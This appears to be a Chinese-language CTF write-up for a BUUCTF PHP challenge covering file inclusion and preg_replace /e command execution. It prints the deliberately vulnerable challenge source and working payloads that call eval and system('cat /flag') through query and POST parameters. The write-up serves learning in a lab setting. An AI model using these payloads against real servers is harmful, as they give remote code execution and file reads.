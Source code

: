 # 知识点：

# 1. php伪协议

# 2. 文件包含

# 3. preg_replace命令执行



参考链接：

https://xz.aliyun.com/t/2557



# 1. 打开题目发现和zjctf2019的逆转思维很像



index直接给出源码：

```javascript
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```



payload:

```javascript
get:
    
```



得到next.php的源码：

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/0822C02484FA4C07861FE2259A92A945clipboard.png)



```javascript
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
    @eval($_GET['cmd']);
}
```



# 2. 接下来就和zjctf2019的题不一样

需要使用preg_replace()函数的命令执行



参考：https://xz.aliyun.com/t/2557

payload:

```javascript
/next.php?\S*={${phpinfo()}}
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/4B66A5A6EC544EF4A3C684FBE5AD3741clipboard.png)



# 3. 接下来就需要调用next的getFlag函数进行，命令执行

注意：eval函数只是能够执行其他函数，并不能执行系统命令，例如cat，所以需要借助system函数

其实eval函数的原理就是将字符串，拼接到源代码中。

```javascript
/next.php?\S*={${getFlag()}}&cmd=system('cat%20/flag');
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/970505B5B99549B58E625645CE63749Bclipboard.png)



也可以不使用getFlag函数

```javascript
get:
    /next.php?\S*=${eval($_POST[a])}
post:
    a=system("cat /flag");
```

